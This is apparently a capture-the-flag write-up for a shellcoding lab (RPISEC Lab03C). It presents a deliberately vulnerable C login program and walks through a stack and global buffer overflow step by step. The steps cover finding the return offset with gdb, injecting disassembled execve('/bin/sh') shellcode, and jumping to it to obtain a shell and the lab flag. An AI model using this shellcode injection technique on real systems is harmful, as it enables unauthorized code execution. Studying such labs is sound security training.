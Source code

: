 # Warzone Lab03: Shellcoding

## Lab03C:

```c
/* gcc -z execstack -fno-stack-protector -o lab3C lab3C.c */

char a_user_name[100];

int verify_user_name()
{
    puts("verifying username....\n");
    return strncmp(a_user_name, "rpisec", 6);
}

int verify_user_pass(char *a_user_pass)
{
    return strncmp(a_user_pass, "admin", 5);
}

int main()
{
    char a_user_pass[64] = {0};
    int x = 0;

    /* prompt for the username - read 100 bytes */
    printf("********* ADMIN LOGIN PROMPT *********\n");
    printf("Enter Username: ");
    fgets(a_user_name, 0x100, stdin);

    /* verify input username */
    x = verify_user_name();
    if (x != 0){
        puts("nope, incorrect username...\n");
        return EXIT_FAILURE;
    }

    /* prompt for admin password - read 64 bytes */
    printf("Enter Password: \n");
    fgets(a_user_pass, 0x64, stdin);

    /* verify input password */
    x = verify_user_pass(a_user_pass);
    if (x == 0 || x != 0){
        puts("nope, incorrect password...\n");
        return EXIT_FAILURE;
    }

    return EXIT_SUCCESS;
}
```

Since the last lab we've lost our `shell()` function. This time, we'll have to inject the shellcode ourselves, and then jump to wherever we injected it.

Since `a_user_pass` is on the stack, this looks like a good candidate to overflow. `fgets` is reading `0x64=100` bytes into a 64 byte buffer so this will likely get us to the return address. Let's start by overflowing this buffer and causing a crash. There's no ASLR for now, so we can use this to determine where our return address should be.

```
rpisec
...............................................................abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890
```
Running `lab3C` with `gdb` and the above file as input, we crash with a segmentation fault at `0x75747372` -> `utsr`. Now we know where we want to inject our return address:

```
rpisec
...............................................................abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890
                                                                                ^^^^
```

This gives us 80 bytes to work with for our shellcode and NOP sled. Stepping through our program with `gdb`, we can also find the address of stack frame when `main()` begins (`0xbffff670`). This will give us a good target to return to.

We can steal a shellcode payload from google, the one below executes `execve("/bin/sh")`. The shellcode below does a few things to setup this call:
1. Set `eax` to NULL
2. Push `"/bin//sh"` onto the stack.
3. Make `ebx` a pointer to `"/bin//sh"`
4. Make `ecx` NULL
5. Make `edx` NULL
6. Make the lower 8 bits of `eax` == `0xb` (this is the syscall table entry for `execve`)
7. Calls the syscall with `int 0x80`
8. Calls `exit(1)` to gracefully exit

```
31 c0                 xor    eax, eax
50                    push   eax
68 2f 2f 73 68        push   0x68732f2f
68 2f 62 69 6e        push   0x6e69622f
89 e3                 mov    ebx, esp
89 c1                 mov    ecx, eax
89 c2                 mov    edx, eax
b0 0b                 mov    al, 0xb
cd 80                 int    0x80
31 c0                 xor    eax, eax
40                    inc    eax
cd 80                 int    0x80
```

We can insert this into our `a_user_pass` variable, but we get some bugs, notably a `Illegal instruction (core dumped)`. This could be that the `main()` function changes the stack that we just worked so hard to overwrite, making our shellcode unusable. Another possibility is that our return address is incorrect. I believe it's the latter, and reusing the same address we find the buffer when running with `gdb` is the issue.

Instead, let's put our shellcode in the `a_user_name` and try to jump to that. The hypothesis being that the global varibles won't move around as much as the stack.

We can find the address of `a_user_name` with `gdb` using `p &a_user_name` == `0x8049c40`. We still have to keep `rpisec` inside the array, so we want to jump 6 bytes after this string to hit our shellcode. Hence, our target address is `0x8049c46`.

And we get our shell!

`(cat /tmp/lab3C.txt; cat) | ./lab3C`

`lab3B:th3r3_iz_n0_4dm1ns_0n1y_U!`

I'd like to go back to this at some point and brute force the stack only attack. It should be easy enough, starting at the address we find with `gdb` increment the target address by 16 bytes and keep trying until we hit out shellcode.

## Lab03B
